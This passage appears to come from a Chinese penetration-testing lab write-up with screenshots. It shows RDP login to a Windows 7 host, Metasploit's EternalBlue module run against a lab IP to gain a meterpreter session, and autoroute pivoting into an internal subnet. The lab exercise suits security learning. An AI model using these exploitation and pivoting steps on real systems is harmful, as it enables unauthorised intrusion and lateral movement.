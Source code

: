 然后利用新建的用户远程登陆windows7系统

```
rdesktop 192.168.112.128
```

![image-20241207191046631](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071910725.png)

### 跳板攻击内网服务器

#### 利用win7开启路由

开启MSF

```
msfconsole 
```

![image-20241211000025577](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111439367.png)

**攻击win7，并进入meterpreter**

设置启用永恒之蓝攻击模块

```
 use exploit/windows/smb/ms17_010_eternalblue 
```

![image-20241211000128700](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111439364.png)

设置攻击ip 192.168.226.129 

```
set rhosts 192.168.226.129 
```

![image-20241211000153542](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111439377.png)

用run/exploit 命令开始攻击

```
run
```

![image-20241211000230630](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111439379.png)

已经攻击成功

route指令可以看到win7的网段 有192.168.226.0/24 和192.168.247.0/24两个网段。

```
route
```

![image-20241211000301790](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111439387.png)

添加192.168.247.0/24的路由，给Kali和win server建立通道

```
run autoroute -s 192.168.247.0/24
```
